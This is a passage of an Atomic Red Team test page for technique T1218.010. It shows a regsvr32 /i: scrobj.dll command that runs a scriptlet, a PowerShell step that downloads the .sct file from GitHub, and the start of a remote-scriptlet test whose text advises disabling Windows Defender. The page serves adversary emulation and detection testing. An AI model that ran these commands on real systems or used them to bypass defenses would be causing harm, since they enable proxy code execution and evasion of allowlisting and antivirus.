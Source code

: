 | Name         | Description                           | Type   | Default Value                                              |
| ------------ | ------------------------------------- | ------ | ---------------------------------------------------------- |
| filename     | Name of the local file, include path. | path   | PathToAtomicsFolder&#92;T1218.010&#92;src&#92;RegSvr32.sct |
| regsvr32path | Default location of Regsvr32.exe      | path   | C:&#92;Windows&#92;system32                                |
| regsvr32name | Default name of Regsvr32.exe          | string | regsvr32.exe                                               |

#### Attack Commands: Run with `command_prompt`!

```cmd
#{regsvr32path}\#{regsvr32name} /s /u /i:"#{filename}" scrobj.dll
```

#### Dependencies: Run with `powershell`!

##### Description: Regsvr32.sct must exist on disk at specified location (#{filename})

##### Check Prereq Commands:

```powershell
if (Test-Path "#{filename}") {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
New-Item -Type Directory (split-path "#{filename}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1218.010/src/RegSvr32.sct" -OutFile "#{filename}"
```

<br/>
<br/>

## Atomic Test #2 - Regsvr32 remote COM scriptlet execution

Regsvr32.exe is a command-line program used to register and unregister OLE controls. This test may be blocked by windows defender; disable
windows defender real-time protection to fix it. Upon execution, calc.exe will be launched.

**Supported Platforms:** Windows

**auto_generated_guid:** c9d0c4ef-8a96-4794-a75b-3d3a5e6f2a36

#### Inputs:

| Name         | Description                      | Type   | Default Value                                                                                           |
| ------------ | -------------------------------- | ------ | ------------------------------------------------------------------------------------------------------- |
| url          | URL to hosted sct file           | url    | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1218.010/src/RegSvr32.sct |
| regsvr32path | Default location of Regsvr32.exe | path   | C:&#92;Windows&#92;system32                                                                             |
| regsvr32name | Default name of Regsvr32.exe     | string | regsvr32.exe                                                                                            |
